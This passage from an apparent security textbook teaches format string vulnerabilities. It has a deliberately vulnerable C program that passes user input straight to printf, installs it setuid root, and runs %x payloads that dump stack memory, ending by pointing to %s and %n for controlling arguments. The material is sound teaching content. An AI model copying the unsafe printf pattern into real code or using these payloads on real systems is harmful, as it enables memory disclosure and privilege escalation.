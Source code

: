 # *__The Format String Vulnerability__*

Sometimes programmers use _printf(string)_ instead of _printf("%s", string)_ to print strings. Functionally, this works fine. The format function is passed the address of the string, as opposed to the address of a format string, and it iterates through the string, printing each character. Examples of both methods are shown in _fmt_vuln.c_.

__fmt_vuln.c__

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[]) 
{
    char text[1024];
    static int test_val = -72;

    if (argc < 2) 
    {
        printf("Usage: %s <text to print>\n", argv[0]);
        exit(0);
    }
    strcpy(text, argv[1]);

    printf("The right way to print user-controlled input:\n");
    printf("%s", text);

    printf("\nThe wrong way to print user-controlled input:\n");
    printf(text);

    printf("\n");

    // Debug output
    printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val,
        test_val);
    
    exit(0);
}
```

The following output shows the compilation and execution of _fmt_vuln.c_.

<pre style="color: white;">
reader@hacking:~/booksrc $ gcc -o fmt_vuln fmt_vuln.c
reader@hacking:~/booksrc $ sudo chown root:root ./fmt_vuln
reader@hacking:~/booksrc $ sudo chmod u+s ./fmt_vuln
reader@hacking:~/booksrc $ ./fmt_vuln testing
The right way to print user-controlled input:
testing
The wrong way to print user-controlled input:
testing
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

Both methods seem to work with the string _testing_. But what happens if the string contains a format parameter? The format function should try to evaluate the format parameter and access the appropriate function argument by adding to the frame pointer. But as we saw earlier, if the appropriate function argument isn’t there, adding to the frame pointer will reference a piece of memory in a preceding stack frame.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln testing%x
The right way to print user-controlled input:
testing%x
The wrong way to print user-controlled input:
testingbffff3e0
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

When the __%x__ format parameter was used, the hexadecimal representation of a four-byte word in the stack was printed. This process can be used repeatedly to examine stack memory.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "%08x."x40')
The right way to print user-controlled input:
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
%08x.%08x.
The wrong way to print user-controlled input:
bffff320.b7fe75fc.00000000.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252
e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.2
52e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e78
38.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
</pre>

This is what the lower stack memory looks like. Remember that each four-byte word is backward, due to the little-endian architecture. The bytes _0x25_, _0x30_, _0x38_, _0x78_, and _0x2e_ seem to be repeating a lot. Wonder what those bytes are?

<pre style="color: white;">
reader@hacking:~/booksrc $ printf "\x25\x30\x38\x78\x2e\n"
%08x.
reader@hacking:~/booksrc $
</pre>

As you can see, they’re the memory for the format string itself. Because the format function will always be on the highest stack frame, as long as the format string has been stored anywhere on the stack, it will be located below the current frame pointer (at a higher memory address). This fact can be used to control arguments to the format function. It is particularly useful if format parameters that pass by reference are used, such as __%s__ or __%n__.